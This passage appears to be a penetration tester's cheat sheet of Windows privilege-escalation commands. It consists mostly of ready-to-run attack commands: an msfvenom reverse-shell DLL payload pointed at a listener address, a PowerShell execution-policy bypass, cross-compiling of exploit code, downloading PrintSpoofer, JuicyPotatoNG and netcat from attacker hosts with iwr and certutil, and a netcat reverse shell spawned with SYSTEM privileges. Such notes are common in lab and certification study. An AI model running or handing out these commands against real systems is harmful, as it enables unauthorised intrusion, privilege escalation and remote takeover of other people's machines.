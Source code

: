 ```jsx
    else {"IsWow64Process call failed"}

```

so the payload which we generate will be x86:

```jsx
msfvenom -p windows/shell_reverse_tcp -f dll -o UninOldIS.dll LHOST=192.168.45.213 LPORT=443
```

### Got shitty cmd shell?

```jsx
set PATH=%SystemRoot%\system32;%SystemRoot%;
%SYSTEMROOT%\System32\WindowsPowerShell\v1.0\powershell.exe
```

```jsx
%SYSTEMROOT%\System32\WindowsPowerShell\v1.0\powershell.exe -ep bypass .\exploit.ps1
```

### Cross-Compile

```bash
i686-w64-mingw32-gcc 40564.c -o pwn.exe -lws2_32
```

```jsx
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

### PrintSpoofer

```jsx
iwr -uri http://10.10.137.147:8888/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
.\PrintSpoofer64.exe -i -c powershell.exe
```

if error jumps during download try:

```jsx
$ProgressPreference = "SilentlyContinue"
-UseBasicParsing (required -Outfile)
```

### Potatoes

**JuicyPotatoNG**

```jsx
cd \Windows\Temp
certutil -urlcache -split -f http://192.168.45.234/JuicyPotatoNG.exe
.\JuicyPotatoNG.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c whoami > C:\test.txt"
certutil -urlcache -split -f http://192.168.45.234/nc64.exe
.\JuicyPotatoNG.exe -t * -p "C:\Windows\Temp\nc64.exe" -a "192.168.45.234 443 -e cmd.exe"
```

[https://github.com/antonioCoco/JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG)
